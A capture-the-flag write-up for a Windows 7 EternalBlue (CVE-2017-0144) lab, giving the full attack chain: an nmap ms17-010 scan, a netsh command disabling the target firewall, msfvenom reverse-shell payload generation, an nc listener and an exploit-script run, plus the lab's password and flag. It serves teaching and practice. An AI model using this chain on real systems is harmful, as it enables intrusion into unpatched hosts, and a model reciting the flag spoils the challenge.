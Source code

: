 # BlueDoor Writeup

## Challenge Information

Link: https://github.com/sethwhy/BlueDoor/tree/main

Difficulty: 3/5

Category/Categories: Exploitation, Windows

Author(s): Seth Davis
References(s): worawit & strik1r

Description:

```
Can you exploit the EternalBlue vulnerability (CVE-2017-0144) on a Windows 7 system and retrieve the hidden flag? Your goal is to gain administrative privileges and locate the flag.txt file stored in the `C:\Windows\System32` directory.

This challenge simulates a real-world vulnerability and requires you to analyze the system, execute an exploit, and navigate to the restricted file location.

```

Hint(s):

- `Hidden in plain sight, more like plain text!`
- `Hmm System32 huh..`

When you first start the challenge, you are presented with:

A Windows 7 virtual machine vulnerable to EternalBlue (CVE-2017-0144).
A flag hidden in the system, requiring administrative privileges to access.

## Solution

```
1. Environment Setup:
Install and configure Kali Linux in your virtual environment (e.g., VMware, VirtualBox).
Ensure that your IP address matches the subnet of the target machine.

2. Network Scanning:
Use nmap to scan for open ports and detect if the target is vulnerable:
nmap -p 139,445 --script smb-vuln-ms17-010 <target-ip>
Confirm that TCP ports 139 and 445 are open and that the SMB service is vulnerable.
```
![image](https://github.com/user-attachments/assets/0e34d61b-b5d9-4a8d-8557-1efa66c33360)
```
3. Disable Firewalls (on the target)
If possible, run:
netsh advfirewall set allprofiles state off
This ensures no interference during the exploitation process.
```
![image](https://github.com/user-attachments/assets/20b1f218-6bea-4645-9c7d-36cb5286a7cd)

Password for Flag user that isnt the flag: 4770_sethwhy
```
4. Exploit EternalBlue:
Use Metasploit or any other payload generator to create a reverse TCP payload.
Some links for help the way I did it - https://github.com/helviojunior/MS17-010, https://github.com/worawit/MS17-010, https://redteamzone.com/EternalBlue/, https://www.rapid7.com/blog/post/2017/05/20/metasploit-the-power-of-the-community-and-eternalblue/

Assemble shellcode & create payload
- nasm -f bin eternalblue_kshellcode_x64.asm -o ./sc_x64_kernel.bin
- msfvenom -p windows/x64/shell_reverse_tcp LHOST=<VM kali machine ip> LPORT=<listen port i.e 4445> -a x64 -f raw -o sc_x64_msf.bin EXITFUNC=thread
(There are other ways to do this, im giving you one solution)

- Set up a listener on your attacking machine:
nc -lvnp 4445
```
![image](https://github.com/user-attachments/assets/a047336f-6970-4db7-824a-5b9f5cdca0a8)

- Run the command "python eternalblue_exploit7 <target-ip> <any shellcode that works>"
- Deliver the payload to the target and exploit the vulnerability.
  
![image](https://github.com/user-attachments/assets/678fa158-d826-4a15-bc05-94dcf7e93e7b)

```
5. Gain Administrative Privileges:
Once inside the system, check to see if privileges were escalated.
```
![image](https://github.com/user-attachments/assets/a1b09373-8e51-4873-b03b-ccaf7e21eb81)
```
6. Search for the Flag:
Look for .txt files in the C:\Windows\System32 directory with this command:
dir *.txt /s /b
```
![image](https://github.com/user-attachments/assets/c5bd2e43-70cd-4013-b4e3-3b5820d18d90)


Locate and open the flag.txt file to retrieve its contents.
![image](https://github.com/user-attachments/assets/a6711136-ef4e-4626-8124-1f7964a2752d)

```

Flag: `CTF{4770_sethwhy}`
